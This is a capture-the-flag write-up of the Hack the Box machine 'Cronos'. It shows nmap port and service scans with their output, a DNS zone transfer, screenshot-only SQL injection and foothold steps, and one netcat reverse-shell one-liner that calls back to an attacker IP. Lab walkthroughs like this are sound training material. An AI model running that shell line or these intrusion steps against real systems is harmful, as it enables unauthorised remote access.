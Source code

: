 # Hack the Box - Cronos

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.13 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/16%OT=22%CT=1%CU=35700%PV=Y%DS=2%DC=I%G=Y%TM=64630A9
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.45 seconds
```

```CSS
▶ nmap -sC -sV -p 22,53,80 10.10.10.13 -oN services.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.22 seconds
```

---

## Host Information
```CSS
▶ nslookup 10.10.10.13 10.10.10.13
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5f8b3c5a-66ec-4668-ac83-682205159d32)
Domain Name: ns1.cronos.htb

---

## Zone Transfer
```
▶ dig axfr @10.10.10.13 cronos.htb
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f37c34e6-4d34-4565-87d3-d57ee7464ad4)
Domain Name: admin.cronos.htb

---

## HTTP 80

URL: `http://cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5d2fecb6-cef4-421c-8578-37bfc1d978e4)

URL: `http://admin.cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0fc5cbe0-b195-4dfd-aeea-79270f2ad30b)

---

## SQL Injectiion

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7c14eb8-7b03-4137-ad50-5c3055c16fc6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7d97f11f-291d-4d3f-8a4f-1cef755d648c)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2c8419e7-77d5-457d-a8eb-b80229de3c1d)

---

## Initial Foothold

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4e29b9df-4240-487b-98a4-6a4ce682140b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c8eb3f14-7b88-4eb2-9f7c-1c1412221f29)

Reverse Bash Shell:
```CSS
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 9001 >/tmp/f
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ccaedd1-7c22-4e29-8abf-604bffdac4f7)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8fffd4c2-df59-48a1-89ef-d19e17c3b03f)

### Upgrade Shell to Interactive TTY
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f1518828-bc05-447a-8313-5a248395867b)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56cb864f-b376-435b-b207-10757c095dc7)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/28989d3b-05b5-4aec-89c7-3b1e78254bb3)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d46994ef-c6fd-46ab-9f41-51a017a1c1e6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee8359b1-9f96-4aa6-a14c-adf24cc90004)

---

